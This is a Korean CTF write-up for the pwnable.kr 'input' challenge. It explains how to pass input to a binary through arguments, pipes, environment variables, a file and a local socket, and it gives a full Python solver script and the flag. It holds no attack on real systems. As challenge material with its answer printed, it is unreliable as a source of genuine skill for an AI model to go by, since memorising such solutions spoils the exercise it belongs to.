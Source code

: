 ```yaml
---
layout: post
title: input
category: Pwnable
rpath: /resource/input
tag: [python] 
---
```


**Category:** Pwnable

**Source:** pwnable.kr

**Points:** 40

**Author:** Jisoon Park(js00n.park)

**Description:** 

> Mom? how can I pass my input to a computer program?

## Write-up

input 문제는 특별한 보안 취약점을 묻는 문제가 아니다.  
소스 코드를 보면, 바이너리에 다양한 방법으로 입력을 주는 방법에 대한 지식을 묻고 있는 것을 알 수 있다.

![img]({{site.github.master}}{{page.rpath}}/code.png)

총 다섯개의 stage를 돌파하면 flag 값을 주게 되어 있는데, exploit을 C로 구현할 경우 좀 더 쉬워지는 stage도 있지만 앞으로 문제를 풀어나가려면 python에 익숙해지는 과정이 필요하니 조금 어렵더라도 python을 이용해서 문제를 풀어보기를 추천한다.

취약점 내용이 아닌 관계로, 각 stage를 일일이 설명하지 않고 문제 해결을 위한 코드를 첨부한다.

```python
import subprocess
import os, sys, struct
import socket, time

#stage 1
cmd = ["/home/input2/input"];

for i in range(99):
	cmd = cmd + ["A"];
cmd[65] = "";
cmd[66] = "\x20\x0a\x0d";
cmd[67] = "25009";

#stage 2: creat pipe
(r0, w0) = os.pipe();
(r2, w2) = os.pipe();

#stage 3 
my_env = os.environ.copy();
my_env["\xde\xad\xbe\xef"] = "\xca\xfe\xba\xbe";

#stage 4
f = open("\x0a", "w");
f.write("\x00\x00\x00\x00");
f.close();

#launch command
p = subprocess.Popen(cmd, stdin=r0, stderr=r2, env=my_env);

#stage 2: send message by pipe
os.write(w0, buffer("\x00\x0a\x00\xff"));
os.close(r0);
os.close(w0);

os.write(w2, buffer("\x00\x0a\x02\xff"));
os.close(r2);
os.close(w2);

#stage 5
time.sleep(1);			#give time to perpare server socket
host="127.0.0.1";
port=25009;
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
try:
	s.connect((host, port));

	s.send(buffer("\xde\xad\xbe\xef"));
	s.close();
except Exception as e:
	print('Connection failed to server ' + host);

time.sleep(1);
p.poll();
```

/tmp 디렉토리에 적당한 디렉토리를 생성하여 위 코드를 넣고, flag에 symbolic link를 건 뒤 실행하면 flag를 얻을 수 있다.

![img]({{site.github.master}}{{page.rpath}}/run.png)

Flag : **Mommy! I learned how to pass various input in Linux :)**
